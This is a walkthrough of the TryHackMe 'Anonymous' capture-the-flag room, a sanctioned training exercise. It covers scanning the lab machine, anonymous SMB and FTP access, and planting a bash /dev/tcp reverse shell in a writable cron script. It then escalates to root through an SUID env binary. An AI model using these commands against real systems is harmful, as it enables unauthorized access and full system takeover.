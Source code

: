 ```yaml
---
title: "TryHackMe - Anonymous Walkthrough"
date: 2025-05-25 00:00:00 +0800
categories: [Writeups, TryHackMe]
tags: [tryhackme,medium,ctf,smb,ftp]
image:
  path: https://tryhackme-images.s3.amazonaws.com/room-icons/876a5185c429c9703e625cb48c39637b.png
  alt: Anonymous room logo
---
```


Room: [Anonymous](https://tryhackme.com/r/room/anonymous)<br>
Author: [Nameless0ne](https://tryhackme.com/r/p/Nameless0ne)<br>
Difficulty: <span style="color: #ef9c03"> **Medium** </span>

## Enumeration

### Port Scan
In this room, the IP for the machine is `10.10.166.189`. We will use `Nmap` to gather information of our target and identify open ports.

```bash
sudo nmap -sSV -T4 -A -Pn 10.10.166.189
```

Nmap scan shows `4` open ports. We also got information about what services and version those ports are and the OS and hostname of the machine. We now have the following information:

```bash
IP: 10.10.166.189
Hostname: anonymous
OS: Ubuntu

Ports:
21 - vsftpd 2.0.8 or later
22 - OpenSSH 7.6p1
139 - Samba smbd 3.X - 4.X
445 - Samba smbd 4.7.6-Ubuntu

Users
namelessone
```

![image.png](/assets/img/thm-anonymous/image.png)

### SMB Enumeration

Since we know that SMB is running on the machine, we can use Nmap to know what are the file shares available on the host.

Resource: <https://nmap.org/nsedoc/scripts/smb-enum-shares.html>

```bash
nmap --script smb-enum-shares.nse -p445 10.10.166.189
```

![image.png](/assets/img/thm-anonymous/image%201.png)

In the Nmap result, we see an interesting fileshare called `pics` . We can also see that `Anonymous` access is allowed for the share.

We can also use `SMBCLIENT` to enumerate file shares.

```bash
smbclient -L \\\\10.10.166.189\\
```

![image.png](/assets/img/thm-anonymous/image%202.png)

We can then access the file share as `Anonymous` using `SMBCLIENT`.

```bash
smbclient \\\\10.10.166.189\\pics -U anonymous --password anonymous
```

![image.png](/assets/img/thm-anonymous/image%203.png)

We have two interesting files, `corgo2.jpg` and `puppos.jpeg`. Unfortunately, there are no interesting information on those files using `exiftool`. Now let’s move on enumerating FTP.

### FTP Enumeration

We know from the Nmap scan that Anonymous access is enabled. Let’s try to access the FTP server.

```bash
ftp anonymous@10.10.166.189
```

Upon accessing the FTP server, we found three interesting files, `clean.sh`, `removed_file.log`, and `to_do.txt`. Also, notice that we have read/write/execute access to the `clean.sh` file.

![image.png](/assets/img/thm-anonymous/image%204.png)

Let’s download those files

```bash
get clean.sh
get removed_files.log
get to_do.txt
```

![image.png](/assets/img/thm-anonymous/image%205.png)

Now let’s check out the contents of those files.

![image.png](/assets/img/thm-anonymous/image%206.png)

![image.png](/assets/img/thm-anonymous/image%207.png)

![image.png](/assets/img/thm-anonymous/image%208.png)

After reviewing the contents of the script file, it seems it is used as a scheduled task to delete the contents of the `/tmp/` directory and if there are no files to delete it will store the message to a log file. 

Remember that we have a write access to the `clean.sh` file. We can take advantage of this to manipulate the file to allow us to run a reverse shell.

We can utilize the [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp for the reverse shell payload.) from Internal All The Things by swisskyrepo.

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

Create a netcat listener

```bash
nc -nvlp 8484
```

Modify the `clean.sh` file 

![image.png](/assets/img/thm-anonymous/image%209.png)

Upload `clean.sh` to the target and wait for it to run.  If successful, we should now have a shell.

![image.png](/assets/img/thm-anonymous/image%2010.png)

Nice! we got a shell and a user access.

### User Flag

Now let’s locate the user flag.

![image.png](/assets/img/thm-anonymous/image%2011.png)

<br>

## Privilege Escalation


### Enumeration

Upon doing some PrivEsc path enumeration, we found a way to escalate our access via `SUID`.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Searhcing through [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid), we found out that we can escalate via SUID using `/usr/bin/env`

![image.png](/assets/img/thm-anonymous/image%2012.png)

![image.png](/assets/img/thm-anonymous/image%2013.png)

### Escalation via SUID

We then escalate our privileges using the following command.

```bash
env /bin/sh -p
```

![image.png](/assets/img/thm-anonymous/image%2014.png)

Alright! we are now `root`.

### Root Flag

Now let’s get the root flag.

![image.png](/assets/img/thm-anonymous/image%2015.png)


Thanks for reading my waklthrough, I hope you enjoyed it! 😊

![ThankYouThanksGIF.gif](/assets/img/thm-anonymous/ThankYouThanksGIF.gif)